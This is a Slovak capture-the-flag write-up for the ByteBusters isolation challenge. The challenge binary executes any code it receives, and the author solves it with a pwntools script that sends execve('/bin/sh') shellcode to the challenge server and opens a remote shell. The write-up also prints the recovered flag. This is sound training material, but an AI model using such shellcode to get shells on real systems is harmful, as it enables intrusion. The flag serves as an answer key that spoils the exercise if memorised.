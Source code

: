 # Zadanie

EN: Your latest assignment from the shadows takes you deep into ByteBusters' isolation division. Their security architects boast about their "perfect isolation", where sensitive information exists only in one process while execution happens in an another.

SK: Tvoja najnovšia úloha z tieňov ťa zavedie hlboko do ByteBusters divízie izolácií. Ich bezpečnostní architekti sa chvália svojou "dokonalou izoláciou", kde citlivé informácie existujú len v jednom procese, zatiaľ čo vykonávanie kódu prebieha v inom.

`exp.cybergame.sk:7004`

**Súbory:**

- chall

## Riešenie

Táto úloha bola spomedzi binexp úloh najjednoduchšia. Dokonca tak, že som ju vyriešil bez binárky pred publikáciu. V princípe, keď sa pripojím na server, tak ten zahlási `Feel free to enter any compiled code:`, čo hneď evokuje, že mám vložiť shellcode a ten sa vykoná. Dokonca aj binárka, konkrétne jej funcia user_function 

```c
void user_function(void)

{
  code *executable_memory;
  
  executable_memory = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (executable_memory == (code *)0xffffffffffffffff) {
    puts("mmap failed");
  }
  else {
    printf("Feel free to enter any compiled code: ");
    fgets((char *)executable_memory,0x1000,stdin);
    (*executable_memory)();
  }
  return;
}
```

hovorí, že v podstate namapuje náš shellcode a ten následne spustí priíkazom `(*executable_memory)()` `() znamená zavolaj, * je pointer na adresu v pamäti, kam sa uložil náš shellcode`. Takže žiaden buffer overflow, jednoduchý proces, aký shellcode dáme taký shellcode sa vykoná.

Na toto je veľmi dobrý asm shellcraft priamo zabudovaný python libke pwntools, takže ak sa vlajka nachádza v adresári s úlohou tak mi stačí `cat flag.txt` a príkaz na vygenerovanie shellcode bude

```python
from pwn import *

context.clear(arch='amd64')
shellcode = asm(shellcraft.cat("flag.txt"))
```

pre spustenie shellu by to bolo napríklad

```python
context.clear(arch='amd64')
shellcode = asm(shellcraft.execve("/bin/sh"))
```

Kedže pre spustením challengu som nevedel, kde je vlajka, použil som možno spawnutia shellu.

Môj python skript, ktorý toto dokázal, je veľmi lightweight, ale svoju prácu si vykoná

```python
from pwn import *

context.clear(arch='amd64')
shellcode = asm(shellcraft.execve("/bin/sh"))

conn = remote("exp.cybergame.sk", 7004)
conn.recvuntil(b"Feel free to enter any compiled code: ")
conn.sendline(shellcode)

conn.interactive()

```

V podstate sa len vygeneruje shellcode, pripojí sa na server, počká si na prijatie dát zo servera a na moment, kedy server očakáva vstup, pošlem mu shellcode a prepnem sa do interaktívneho režimu.

Výstup je

```
[+] Opening connection to exp.cybergame.sk on port 7004: Done
[*] Switching to interactive mode
$ ls -la
total 32
drwxr-xr-x 1 root root  4096 May 19 21:12 .
drwxr-xr-x 1 root root  4096 Jun  1 19:33 ..
-rwxrwxr-x 1 root root 16800 Apr  7 08:17 chall
-rw-rw-r-- 1 root root    35 May 19 08:14 flag.txt
$ cat flag.txt
SK-CERT{1_w4n7_70_run_my_0wn_c0d3}
$  
```

## Vlajka

```
SK-CERT{1_w4n7_70_run_my_0wn_c0d3}
```
